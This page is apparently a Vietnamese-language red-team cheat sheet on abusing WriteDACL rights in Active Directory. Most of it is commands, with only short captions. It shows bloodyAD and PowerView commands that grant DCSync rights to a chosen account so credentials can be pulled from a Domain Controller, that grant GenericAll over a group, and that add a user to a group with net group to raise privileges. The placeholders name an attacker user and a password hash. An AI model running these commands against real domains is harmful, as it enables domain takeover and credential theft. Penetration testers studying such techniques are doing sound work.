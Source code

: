 # WriteDACL

## Quyền DCSync

Cấp quyền DCSync cho tài khoản được chỉ định, cho phép đồng bộ hóa thư mục để trích xuất thông tin xác thực từ Domain Controller.

#### Windows/Linux

Lệnh này&#x20;

{% code overflow="wrap" %}

```
bloodyAD.py --host <ip> -d <domain> -u <attackeruser> -p :<hash> add dcsync <targetuser>
```

{% endcode %}

#### Windows Only

{% code overflow="wrap" %}

```
$SecPassword = ConvertTo-SecureString '<userpassword>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>.local\<user>', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=<domain>,DC=local' -Rights DCSync -PrincipalIdentity <targetuser> -Verbose -Domain <domain>.local
```

{% endcode %}

## Quyền GenericAll

Cấp quyền GenericAll cho một nhóm cụ thể, cho phép kiểm soát hoàn toàn nhóm, bao gồm quản lý thành viên.

#### Windows/Linux

{% code overflow="wrap" %}

```
bloodyAD --host <dc_ip> -d <domain> -u <attackeruser> -p '<password>' add genericAll 'cn=<groupname>,dc=<domain>' <attackeruser>
```

{% endcode %}

#### Windows Only

Lệnh này thêm tài khoản vào một nhóm cụ thể (ví dụ: INTERESTING\_GROUP) bằng lệnh net để nâng quyền.

```
net group "<groupname>" <user> /add /domain
```

Lệnh này cấp quyền WriteMembers cho tài khoản để kiểm soát danh sách thành viên của nhóm.

{% code overflow="wrap" %}

```
Add-DomainObjectAcl -TargetIdentity "<groupname>" -Rights WriteMembers -PrincipalIdentity <user>
```

{% endcode %}

